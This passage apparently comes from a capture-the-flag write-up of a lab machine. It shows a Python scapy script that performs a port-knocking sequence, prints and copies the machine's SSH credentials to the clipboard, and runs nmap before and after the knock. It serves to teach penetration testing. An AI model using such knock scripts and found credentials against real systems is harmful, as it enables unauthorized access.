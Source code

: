 Wrote a short script to knock, `open_portal_to_Hades.py`:

    
    
    #!/usr/bin/env python
    
    from scapy.all import *
    import pyperclip
    
    def SendSyn(ip, port):
        ip=IP(src="10.10.15.99", dst=ip)
        SYN=TCP(sport=7777, dport=port, flags="S", seq=12345)
        send(ip/SYN)
    
    ports = [3456, 8234, 62431]
    
    for port in ports:
        SendSyn("10.10.10.83", port)
    
    print("[+] Portal should be open.\nRun:\nssh prometheus@10.10.10.83\npassword: St34l_th3_F1re!")
    print("[*] Putting password on system clipboard. Ctrl + Shift + v to paste")
    pyperclip.copy('St34l_th3_F1re!\n')
    

To demonstrate the script, I’ll start with an nmap showing ssh on 22 filtered:

    
    
    root@kali# nmap -p- -sT --min-rate 5000 10.10.10.83
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
    Nmap scan report for 10.10.10.83
    Host is up (0.095s latency).
    Not shown: 65531 closed ports
    PORT     STATE    SERVICE
    22/tcp   filtered ssh
    53/tcp   open     domain
    80/tcp   open     http
    2222/tcp open     EtherNetIP-1
    

Now, run the script:

    
    
    root@kali# ./open_portal_to_Hades.py
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    [+] Portal should be open.
    Run:
    ssh prometheus@10.10.10.83
    password: St34l_th3_F1re!
    

And check nmap again… ssh is open:

    
    